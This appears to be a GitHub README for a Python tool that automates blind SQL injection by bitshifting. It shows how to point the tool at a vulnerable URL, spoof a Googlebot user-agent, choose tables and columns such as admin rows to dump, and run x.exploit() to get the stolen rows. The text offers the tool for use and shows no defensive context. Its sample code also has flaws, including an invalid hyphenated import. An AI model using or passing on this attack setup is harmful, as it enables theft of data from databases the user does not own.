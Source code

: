 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character. Further efficency is possible in some cases with a few modifications.

Method by **Jelmer de Hen** (https://www.exploit-db.com/papers/17073/)

Implementation coded by **Eclipse** of **Team Salvation** (http://ljdbosgro7jj4z7r.onion)

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration: 

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1",

# Specify cookie (optional)
x.options["cookies"] = "",

# Specify a condition for a specific row, e.g. 'uid=1' for admin (1 = no condition)
x.options["row_condition"] = "1",

# Boolean option for following redirections
x.options["follow_redirections"] = 0,

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)",

# Specify table to dump
x.options["table_name"] = "table",

# Specify columns to dump
x.options["columns"] = "col1,col2",

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimentional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`

